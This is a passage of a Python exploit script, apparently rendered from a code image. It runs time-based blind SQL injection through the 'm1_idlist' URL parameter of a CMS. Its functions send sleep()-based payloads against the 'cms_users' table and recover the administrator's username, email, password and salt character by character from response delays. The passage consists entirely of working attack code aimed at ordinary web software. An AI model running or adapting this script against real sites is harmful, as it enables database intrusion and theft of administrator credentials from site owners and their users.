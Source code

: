 ```python
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = f"a,b,1,5))+and+(select+sleep({str(TIME)})+from+cms_users+where+username+like+0x{ord_db_name_temp}25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = f"a,b,1,5))+and+(select+sleep({str(TIME)})+from+cms_users+where+email+like+0x{ord_email_temp}25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
dump_email()
```